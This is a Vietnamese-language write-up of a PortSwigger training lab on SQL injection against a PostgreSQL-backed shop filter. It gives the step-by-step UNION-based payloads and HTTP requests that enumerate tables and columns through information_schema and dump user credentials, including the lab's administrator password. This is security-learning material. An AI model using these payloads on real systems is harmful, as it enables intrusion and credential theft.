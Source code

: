 # Write-up: SQL injection attack, listing the database contents on non-Oracle databases

### Tổng quan
Ghi lại quá trình khai thác SQLi để lấy thông tin tài khoản `adminstrator` rồi đăng nhập.

### Mục tiêu
Đăng nhập dưới tên `administrator`.

### Công cụ:
- BurpSuite Community
- Firefox Browser

### Các bước thực hiện
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `category` trong URL (`filter?category=Gifts`) và thêm dấu `'` để kích hoạt lỗi SQL:
  - **Kết quả:** xuất hiện lỗi SQL, xác nhận lỗ hổng
    ![lỗi](./images/error.png)

- Xác định số cột trả về bằng:
  - Payload:
    ```
    'ORDER BY 3--
    ```
  - **Kết quả**: xác nhận có 2 cột do payload trên gây ra lỗi
    ![cột](./images/column.png)

- Xác định version của Database:
  - Payload:
    ```
    'UNION SELECT NULL,version()--
    ```
  - **Kết quả** DB là loại PostgreSQL
    ![db](./images/version.png)

2. **Tạo Payload và Khai thác**
- Tạo payload kiểu tấn công UNION lấy tên bảng hiện tại đang sử dụng:
  ```
  GET /filter?category=Gifts'UNION+SELECT+table_name,NULL+FROM+information_schema.tables+WHERE+table_schema+=+'public'-- HTTP/2
  ```
  - **Kết quả**: trả về tên bảng `users_sktknn`
  ![table](./images/tb_user.png)

- Tạo payload kiểu tấn công UNION lấy tên cột trong bảng `users_sktknn`
    ```
    GET /filter?category=Gifts'UNION+SELECT+string_agg(column_name,','),NULL+FROM+information_schema.columns+WHERE+table_name='users_sktknn'-- HTTP/2
    ```
    - **Kết quả**: trả về tên các cột `username_tpjeoz`, `password_rjkqop`.
    ![tên cột](./images/column_user.png)

- Tạo payload kiểu tấn công UNION lấy thông tin trong các cột `username_tpjeoz`, `password_rjkqop`
    ```
    GET /filter?category=Gifts'+UNION+SELECT+string_agg(username_tpjeoz,+','),+string_agg(password_rjkqop,+',')+FROM+users_sktknn--
    ```
    - **Kết quả**: trả về thông tin các user trong bảng  `users_sktknn` trong đó có user `administrator`
    ![dât](./images/dt_user.png)

3. **Kết quả**
- Login bằng tài khoản `administrator` : `icz02qt9ghwv9qq8elm6` và hoàn thành bài lab.
    ![admin](./images/solve.png)

### Bài học rút ra
- Nâng cao kĩ năng UNION để trích xuất dữ liệu đa cột và lấy thông tin phiên bản.
- Hiểu cách sử dụng bảng information_schema trong PostgreSQL.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng SQL injection và sử dụng Burp Suite. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.